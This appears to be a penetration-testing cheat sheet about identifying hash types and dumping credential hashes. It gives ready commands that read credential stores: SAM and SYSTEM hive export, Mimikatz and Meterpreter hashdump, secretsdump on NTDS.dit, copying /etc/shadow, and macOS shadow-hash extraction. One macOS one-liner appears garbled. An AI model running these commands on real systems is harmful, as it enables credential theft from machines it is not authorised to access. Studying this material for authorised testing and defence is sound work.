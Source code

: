 # Identifying Hash Types
In Kali:
- `Hash-identifier`
- `hashid`

Online:
Hash Analyzer: https://www.tunnelsup.com/hash-analyzer/


# Dumping Hashes
## Windows:
- On Victim Windows:
    `reg.exe
    reg save HKLM\sam sam
    reg save HKLM\system system`
- On Kali (after transferring `sam` and `system` files)
    `samdump2
    samdump2 SYSTEM SAM > hashes.db`
### Meterpreter 
- HashDump: `run post/windows/gather/hashdump`
- Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)
    `load mimikatz
    creds_all
    DUMP LSA SECRETS`
### Impacket Tools:
- `secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes`
If you have the NTDS.dit file and the SYSTEM hive:
- `secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL`
### Other Tools
- PS Empire: `lsadump.py sys_backup.hiv sec_backup.hiv`
- Creddump7: `pwdump.py sys_backup.hiv sec_backup.hiv`

## Linux
Requires Root Privileges
1. copy `/etc/passwd` and `/etc/shadow` from Victim Linux system locally
2. `unshadow passwd shadow`
3. `Hashcat`/`john` (see sections below for more detail)

## OSX
- 10.5-10.7: `dscl localhost -read /Search/Users/|grep GeneratedUID|cut -c15-cat /var/db/shadow/hash/ | cut -c169-216 > osx_hash.txt`
- 10.8-10.12: `sudo defaults read /var/db/dslocal/nodes/Default/users/.plist ShadowHashData|tr -dc ‘0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -`

## Other Resources:
Lsassy: https://github.com/Hackndo/lsassy
Mimikatz resource That Stephen R shared: https://adsecurity.org/?page_id=1821